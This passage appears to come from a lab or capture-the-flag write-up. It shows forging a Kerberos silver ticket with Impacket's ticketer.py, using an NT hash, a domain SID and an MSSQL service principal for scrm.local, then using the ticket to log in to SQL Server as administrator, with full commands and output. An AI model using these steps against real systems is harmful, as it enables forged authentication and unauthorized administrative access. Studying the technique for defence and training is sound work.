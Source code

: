 The last item is the domain SID

- You can acquire the SPN with `GetUserSPNS.py` from Impacket, An example of Mssql spn will be like - `MSSQLSvc/dc1.scrm.local:1433`.

## # `Generating Ticket` -

`ticketer.py` (or `impacket-ticketer`) will generate a ticket using the information gathered :

```bash
napster@hacky$ ticketer.py -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip dc1.scrm.local -spn MSSQLSvc/dc1.scrm.local:1433 administrator
Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for scrm.local/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in administrator.ccache
```

The output file is `administrator.ccache`, which is a kerberos ticket as administrator that only the MSSQL service will trust.

## # `Connecting on Linux` -

Import the ccache like this -

```bash
napster@hacky$ KRB5CCNAME=administrator.ccache klist
Ticket cache: FILE:administrator.ccache
Default principal: administrator@SCRM.LOCAL

Valid starting       Expires              Service principal
06/14/2022 18:44:15  06/14/2032 18:44:15  MSSQLSvc/dc1.scrm.local:1433@SCRM.LOCAL
        renew until 06/14/2032 18:44:15
```

Using that same method, `mssqlclient.py` can connect to the DB using the ticket :

```bash
napster@hacky$ KRB5CCNAME=administrator.ccache mssqlclient.py -k dc1.scrm.local
Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL>
```
